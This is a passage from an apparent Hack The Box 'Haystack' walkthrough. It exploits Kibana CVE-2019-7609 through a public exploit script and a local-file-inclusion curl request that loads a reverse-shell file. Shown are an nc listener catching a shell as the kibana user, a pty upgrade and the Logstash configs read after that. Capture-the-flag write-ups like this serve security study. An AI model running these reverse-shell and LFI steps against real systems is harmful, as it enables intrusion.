 And there is an exploit. But a CSV injection won't give us a reverse shell on the Kibana user.

Googling "Kibana exploit" results in a RCE on Kibana < 6.60. And a script at https://github.com/LandGrey/CVE-2019-7609/

So I'm gonna port forward port 5601 so I can access kibana, and check the version.

`kali@kali:~/htb/Haystack$ ssh -L 5601:127.0.0.1:5601 security@10.129.110.54`

And then I go to `http://localhost:5601`

By going to the management tab on kibana, I see we are running Version: 6.4.2

So The exploit should be good.

```
kali@kali:~/htb/Haystack$ python CVE-2019-7609-kibana-rce.py -u http://localhost:5601 -host 10.10.14.13 -port 1337 --shell
[+] http://localhost:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[-] cannot reverse shell
```

Hmm. I try another vcersion I found at https://github.com/mpgn/CVE-2019-7609 

This led me to https://www.synacktiv.com/en/publications/pwning-an-outdated-kibana-with-not-so-sad-vulnerabilities.html

And after I did all the steps, and nothing happened. I realized that I could just use the LFI vulnerability since I have ssh access.

I did have to reset the box, as it would just hang if I tried to curl the reverse shell file.


```
kali@kali:~/htb/Haystack$ curl "http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../tmp/rev.js"
```

And on the listener:

```
kali@kali:~/htb/Haystack$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.110.90 60756
whoami
kibana
```

I improve the shell with `python -c 'import pty; pty.spawn("/bin/sh")'` and so on.

So now we can finally use kibana:

```
bash-4.2$ cat filter.conf
cat filter.conf
filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
bash-4.2$ cat input.conf
cat input.conf
input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
```